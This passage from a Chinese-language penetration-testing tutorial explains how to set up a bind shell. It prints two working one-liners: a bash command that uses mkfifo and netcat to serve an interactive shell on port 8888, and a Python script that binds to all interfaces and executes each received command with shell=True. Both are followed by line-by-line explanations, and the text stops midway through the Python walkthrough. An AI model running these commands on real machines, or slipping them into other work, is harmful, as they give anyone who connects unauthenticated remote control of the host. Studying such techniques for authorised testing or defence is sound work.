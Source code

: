 ## 3.2绑定shell实现步骤
* ##### 和反向shell相反，我们先要在目标机器上运行命令

###### Linux bash
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 8888 >/tmp/f
```

- **`rm /tmp/f`**: 删除名为 `/tmp/f` 的文件，以确保在创建新的命名管道前，该路径上没有遗留的文件或管道。

- **`mkfifo /tmp/f`**: 创建一个名为 `/tmp/f` 的命名管道。命名管道允许在进程间传递信息，即使这些进程没有直接的父子关系。

- **`cat /tmp/f | /bin/bash -i 2>&1 | nc -lvp 8888 > /tmp/f`**:这个命令串通过几个步骤建立了一个监听连接，允许远程命令执行：
    - **`cat /tmp/f`**:读取命名管道 `/tmp/f` 的内容。`cat` 命令会持续读取数据，直到管道中没有更多数据可读。
    - **`/bin/bash -i 2>&1`**:`bash -i` 启动一个交互式 shell。`2>&1` 是一个重定向，它将标准错误合并到标准输出，这意味着错误信息和正常输出都将通过管道传递。
    - **`nc -lvp 8888`**:`nc` (netcat) 启动并监听端口 `8888` 上的传入连接。选项 `-l` 表示监听模式，`-v` 表示详细输出，`-p 8888` 指定使用端口 `8888`。
    - **`> /tmp/f`**:将 `netcat` 收到的任何输入重定向回 `/tmp/f` 管道，这样数据就可以再次被 `cat` 读取并送入 `bash` 执行。

###### Python
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",8888));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

- **`import socket as s, subprocess as sp`**:
   - 导入 `socket` 库作为 `s`，用于网络通信。
   - 导入 `subprocess` 库作为 `sp`，用于执行系统命令。

- **`s1=s.socket(s.AF_INET, s.SOCK_STREAM)`**:
   - 创建一个 TCP socket 对象 `s1`。

- **`s1.setsockopt(s.SOL_SOCKET, s.SO_REUSEADDR, 1)`**:
   - 设置 socket 选项，允许重新使用本地地址和端口（这在 socket 被关闭后立即重新绑定端口时非常有用）。

- **`s1.bind(("0.0.0.0", 8888))`**:
   - 绑定 socket 到所有可用接口（`0.0.0.0`）的 8888 端口。

- **`s1.listen(1)`**:
   - 启动 socket 的监听模式，准备接受连接请求。参数 `1` 指定了系统允许挂起的最大连接数。

- **`c, a = s1.accept()`**:
   - 等待并接受一个连接。`c` 是新的 socket 对象，用于与客户端通信；`a` 是连接的地址信息。

- **`while True:`**:
   - 开启一个无限循环，持续监听并执行从客户端接收到的命令。

   - **`d = c.recv(1024).decode()`**:
     - 接收客户端发送的数据，最多 1024 字节，并将其解码成字符串。

   - **`p = sp.Popen(d, shell=True, stdout=sp.PIPE, stderr=sp.PIPE, stdin=sp.PIPE)`**:
     - 使用 `subprocess.Popen` 执行接收到的命令 `d`。`shell=True` 允许命令在 shell 中执行。`stdout`, `stderr`, 和 `stdin` 都被重定向，这样脚本可以捕获命令的输出和错误信息。
